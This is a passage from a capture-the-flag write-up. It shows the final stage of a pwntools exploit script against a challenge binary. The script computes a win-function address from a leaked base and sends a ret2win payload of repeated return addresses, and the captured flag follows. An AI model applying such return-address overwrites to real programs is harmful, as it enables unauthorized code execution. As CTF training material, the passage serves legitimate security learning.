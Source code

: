 ```Leaked Address - Base Address = Offset```
winAddr = programBase + winOffset
ret = winAddr-1
p.recvuntil(b">>> ")
p.sendline(hex(winAddr).encode('utf-8'))


# Stage4: Ret2Win
p.recvuntil(b">>> ")
p.sendline(b"4")
p.recvuntil(b">>> ")
payload = (p64(ret)*40 + p64(winAddr))
p.sendline(payload)


p.interactive()
```

### win()

Finally we run our script and are presented with the flag.

```shctf{t0_pwnf1nity_&_b3y0nd!}```

![](Images/win.png)
